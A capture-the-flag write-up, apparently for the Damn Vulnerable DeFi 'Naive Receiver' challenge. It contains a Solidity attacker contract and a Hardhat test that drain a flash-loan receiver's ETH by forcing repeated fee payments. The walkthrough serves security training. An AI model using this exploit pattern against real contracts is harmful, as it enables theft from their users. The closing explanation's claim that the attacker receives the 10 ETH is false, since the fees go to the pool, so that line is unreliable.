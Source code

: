 # Challange #2 - Naive Receiver

There’s a pool with 1000 ETH in balance, offering flash loans. It has a fixed fee of 1 ETH.

A user has deployed a contract with 10 ETH in balance. It’s capable of interacting with the pool and receiving flash loans of ETH.

Take all ETH out of the user’s contract. If possible, in a single transaction.

<br />
This funcion allows users to borrow ETH from the pool. The pool will only send the ETH if the user’s contract has enough balance to pay the fee.

```solidity
function flashLoan(address borrower, uint256 borrowAmount) external nonReentrant {

        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= borrowAmount, "Not enough ETH in pool");


        require(borrower.isContract(), "Borrower must be a deployed contract");
        // Transfer ETH and handle control to receiver
        borrower.functionCallWithValue(
            abi.encodeWithSignature(
                "receiveEther(uint256)",
                FIXED_FEE
            ),
            borrowAmount
        );

        require(
            address(this).balance >= balanceBefore + FIXED_FEE,
            "Flash loan hasn't been paid back"
        );
    }
```

## Attacker Contract

```solidity
import "../naive-receiver/NaiveReceiverLenderPool.sol";

contract AttackerNaiveReceiver {
    NaiveReceiverLenderPool pool;

    constructor(address payable _pool) {
        pool = NaiveReceiverLenderPool(_pool);
    }

    function exploit(address victim) public {
        for (int i = 0; i < 10; i++) {
            pool.flashLoan(victim, 1 ether);
        }
    }
}
```

## Exploit

```javascript
it("Exploit", async function () {
	const AttackerFactory = await ethers.getContractFactory(
		"AttackerNaiveReceiver",
		attacker
	);
	const attackContract = await AttackerFactory.deploy(this.pool.address);

	await attackContract.exploit(this.receiver.address);
});
```

## Explanation

The attacker contract calls the `flashLoan` function 10 times, each time borrowing 1 ETH. The `receiveEther` function of the receiver contract is called 10 times, each time paying 1 ETH fee. The receiver contract has 10 ETH in balance, so it can pay the fee 10 times. The attacker contract receives 10 ETH in total.
